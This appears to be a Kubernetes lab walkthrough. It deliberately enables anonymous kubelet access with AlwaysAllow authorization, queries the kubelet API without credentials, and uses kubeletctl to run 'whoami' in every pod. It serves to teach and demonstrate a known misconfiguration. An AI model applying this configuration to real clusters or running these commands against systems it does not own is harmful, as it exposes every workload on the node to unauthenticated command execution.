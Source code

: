 
#### Step 1 Make a request to Kubelet API:
```sh
apt install net-tools
netstat -ntlp
curl -k -X GET https://localhost:10250/pods
```
#### Step 2 Modify the Kubelet Configuration file:
```sh
cd /var/lib/kubelet
cp config.yaml config.yaml.bak
```

```sh
edit and replace
authentication:
  anonymous:
    enabled: true
  webhook:
    cacheTTL: 0s
    enabled: true
  x509:
    clientCAFile: /etc/kubernetes/pki/ca.crt
authorization:
  mode: AlwaysAllow

```

```sh
systemctl restart kubelet
systemctl status kubelet
```

#### Step 3 Make Request to Kubelet API:
```sh
curl -k -X GET https://localhost:10250/pods
```
#### Step 4 Download kubeletctl:

##### GitHub Repo

https://github.com/cyberark/kubeletctl

```sh
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.6/kubeletctl_linux_amd64
chmod a+x ./kubeletctl_linux_amd64 
mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```sh
kubeletctl pods -i
kubeletctl run "whoami" --all-pods -i
```

#### Step 5 Verify the certificate of the kubelet for node authorizer group:
```sh
openssl x509 -in  /var/lib/kubelet/pki/kubelet-client-current.pem -text -noout
```
